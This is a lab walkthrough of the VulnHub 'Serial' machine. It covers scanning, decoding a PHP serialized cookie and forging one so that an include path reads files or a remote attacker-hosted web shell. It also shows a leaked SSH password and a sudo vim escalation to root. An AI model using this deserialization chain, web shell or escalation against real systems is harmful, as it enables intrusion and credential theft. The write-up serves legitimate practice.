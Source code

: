 Serial -  PHP Serialization in cookie

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Content Discovery of source files php
[+] Serialization on localhost and remote host
[+] Serialization in the cookie 
[+] PHP reverse Shell
[+] Privilege Escalation abusing SUDO rights /usr/bin/vim
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.107
Host is up (0.00075s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:f2:95:6a:f2:97:e0:ff:9f:68:14:a0:3a:d8:e2:eb (RSA)
|   256 e0:1e:cf:6f:29:4e:09:bb:df:4a:08:08:44:d4:f0:49 (ECDSA)
|_  256 38:28:63:c6:e4:bc:38:7e:6f:c2:72:b3:42:26:17:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Ubuntu))
|_http-server-header: Apache/2.4.38 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:8E:04:D1 (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Dirb Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# dirb http://192.168.56.107

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Oct 25 06:43:58 2019
URL_BASE: http://192.168.56.107/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.107/ ----
==> DIRECTORY: http://192.168.56.107/backup/                                                                                                                   
+ http://192.168.56.107/index.php (CODE:200|SIZE:52)                                                                                                           
+ http://192.168.56.107/server-status (CODE:403|SIZE:302)                                                                                                      
                                                                                                                                                               
---- Entering directory: http://192.168.56.107/backup/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Browsing to http://192.168.56.107/

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# curl http://192.168.56.107
Hello sk4This is a beta test for new cookie handler

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Looking at the cookies sent to the server

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Serial/serial1.png)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# echo 'Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjM6InNrNCI7czo5OiIAVXNlcgB3ZWwiO086NzoiV2VsY29tZSI6MDp7fX0%3D' | base64 -d
O:4:"User":2:{s:10:"Username";s:3:"sk4";s:9:"Userwel";O:7:"Welcome":0:{}}base64: invalid input

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Downloading the backup.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# wget http://192.168.56.107/backup/bak.zip
--2019-10-25 06:45:30--  http://192.168.56.107/backup/bak.zip
Connecting to 192.168.56.107:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1009 [application/zip]
Saving to: ‘bak.zip’

bak.zip                                 100%[===============================================================================>]    1009  --.-KB/s    in 0s      

2019-10-25 06:45:30 (34.7 MB/s) - ‘bak.zip’ saved [1009/1009]

root@setrus:~# unzip bak.zip 
Archive:  bak.zip
  inflating: index.php               
  inflating: log.class.php           
  inflating: user.class.php 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After reading the code from the php files the final fiels are:

user.class.php


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat user.class.php 
<?php
  include("log.class.php");

  class Welcome {
    public function handler($val) {
      echo "Hello " . $val;
    }
  }

  class User {
    private $name;
    private $wel;

    function __construct($name) {
      $this->name = $name;
      $this->wel = new Log();
    }

    function __destruct() {
      //echo "bye\n";
      $this->wel->handler($this->name);
    }
  }
echo base64_encode(serialize(new User('setrus')));
?>

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


log.class.php

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat log.class.php 
<?php
  class Log {
    private $type_log="/etc/passwd";

    function __costruct($hnd) {
      $this->$type_log = $hnd;
    }

    public function handler($val) {
      include($this->type_log);
      echo "LOG: " . $val;
    }
  }
?>

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Testing serialization

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# php user.class.php
LOG: setrusTzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjY6InNldHJ1cyI7czo5OiIAVXNlcgB3ZWwiO086MzoiTG9nIjoxOntzOjEzOiIATG9nAHR5cGVfbG9nIjtzOjExOiIvZXRjL3Bhc3N3ZCI7fX0=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Testing the serialization on the server:

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Serial/serial2.png)

Modifying the log file to include something from kali .


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# service apache2 start
root@setrus:~# ls -al /var/www/html/cmd_shell.php 
-rw-r--r-- 1 root root 31 Oct 25 07:02 /var/www/html/cmd_shell.php
root@setrus:~# cat /var/www/html/cmd_shell.php
<?php system($_GET["cmd"]); ?>
root@setrus:~# 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Modifying the log.class.php

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/# cat log.class.php 
<?php
  class Log {
   // private $type_log="/etc/passwd";
//    private $type_log="http://192.168.56.102/cmd_shell.php";
    private $type_log="/credentials.txt.bak";  
  function __costruct($hnd) {
      $this->$type_log = $hnd;
    }

    public function handler($val) {
      include($this->type_log);
      echo "LOG: " . $val;
    }
  }
?>

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We get the credentials to login to the server

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Serial/serial3.png)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sk4:KywZmnPWW6tTbW5w
LOG: setrusThis is a beta test for new cookie handler

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh sk4@192.168.56.107
sk4@192.168.56.107's password: 
Welcome to Ubuntu 19.04 (GNU/Linux 5.0.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


0 updates can be installed immediately.
0 of these updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release. Check your Internet connection or proxy settings

Last login: Tue Aug 20 11:23:45 2019 from 192.168.1.5
sk4@sk4-VM:~$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sk4@sk4-VM:~$ sudo -l
Matching Defaults entries for sk4 on sk4-VM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sk4 may run the following commands on sk4-VM:
    (ALL) NOPASSWD: /usr/bin/vim
sk4@sk4-VM:~$ sudo /usr/bin/vim

root@sk4-VM:~# id
uid=0(root) gid=0(root) groups=0(root)
root@sk4-VM:~# 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~










